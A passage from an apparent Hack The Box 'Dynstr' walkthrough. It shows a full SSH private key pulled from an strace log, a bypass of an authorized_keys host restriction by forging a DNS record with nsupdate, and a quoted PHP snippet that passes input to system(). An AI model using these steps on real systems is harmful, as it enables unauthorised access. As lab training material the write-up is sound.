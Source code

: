  After analyzing the files, noticed that in `strace-C62796521.txt` we have the private key in plain text, which was extracted and saved as an `id_rsa` file.

  ```plaintext
  [...]
  15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823
  [...]
  ```

  When I tried to SSH to bindmgr account using this key, noticed that it failed. Checking the contents of `authorized_keys` file, verified that we have a `from` option defined, that will prevent us from accessing the account using that key if not registered as a `*.infra.dyna.htb` subdomain.

  ```bash
  www-data@dynstr:/tmp$ cat /home/bindmgr/.ssh/authorized_keys
  from="*.infra.dyna.htb" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6CcwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7aXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WOD bindmgr@nomen
  ```

  To achieve that, we would need to edit the hosts file, not possible with current credentials, but we could also leverage `nsupdate` to include our DNS entry into the `infra.dyna.htb` zone, where I've captured the command used in the API to be reused in our scenario:

  ```php
  // Update DNS entry
  $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
  system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
  ```

  Based on that, crafted the following command line to add our IP as a known subdomain

  ```bash
  www-data@dynstr:/dev/shm$ cat nsupdate
  server 127.0.0.1
  zone dyna.htb
  update delete attacker.infra.dyna.htb
  update add attacker.infra.dyna.htb 30 IN A 10.10.10.10
  send
  www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key
  update failed: REFUSED
  ```
